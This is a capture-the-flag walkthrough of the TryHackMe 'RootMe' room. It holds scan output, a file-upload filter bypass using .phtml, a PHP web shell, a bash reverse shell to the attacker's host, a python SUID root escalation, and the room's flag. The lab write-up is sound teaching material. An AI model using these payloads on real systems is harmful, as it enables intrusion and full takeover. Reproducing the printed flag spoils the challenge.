 # Challenge: 

https://tryhackme.com/room/rrootme

1. Bypass file upload restriction
2. Upload php file
3. Gain reverse shell
4. Gain root access

## Scouting

`sudo nmap 10.18.72.160 -sV -p- -T5`

```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-11 10:59 EST
Warning: 10.10.118.61 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.118.61
Host is up (0.15s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http    Apache httpd 2.4.29 ((Ubuntu))
29072/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 626.88 seconds
```

## Use gobuster to find hidden website director

`gobuster dir -u 10.10.187.26 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.187.26
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/01/11 13:20:19 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.187.26/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.187.26/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.187.26/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.187.26/panel/]
Progress: 8981 / 220561 (4.07%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2023/01/11 13:22:40 Finished
===============================================================
```

## Bypassed .php block by uploading with .phtml

```
phtml, .php, .php3, .php4, .php5, and .inc
```

https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass

## Check if php is usable

Test payload:
```
<?php

	echo system($_GET["cmd"]);

?> 
```

On website:

`http://10.10.187.26/uploads/a.phtml?cmd=id;whoami`

## Create reverse shell php file

On kali, start netcat listener: 

`nc -nvlp 1234`

On kali, get our own IP:

`ip a`

```
3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none 
    inet {local ip}/17 scope global tun0 <----------------------------------------
       valid_lft forever preferred_lft forever
    inet6 {local ipv6}/64 scope link stable-privacy 
       valid_lft forever preferred_lft forever
```

Create simple reverse shell:

```
<?php

exec("/bin/bash -c 'bash -i >& /dev/tcp/{local ip}/1234 0>&1'");
```

Navigate to the file on the website.

`http://10.10.187.26/uploads/b.phtml`

## Find file with SUID perm. and use it to gain root

`find . -perm /4000 `
```
...
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
...
```

This finds that python has SUID. Use python SUID exploit.

From: https://gtfobins.github.io/gtfobins/python/

`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

## Find and get the flag

`find / -iname root.txt`

```
/root/root.txt
```

`cat /root/root.txt`
```
THM{pr1v1l3g3_3sc4l4t10n}
```
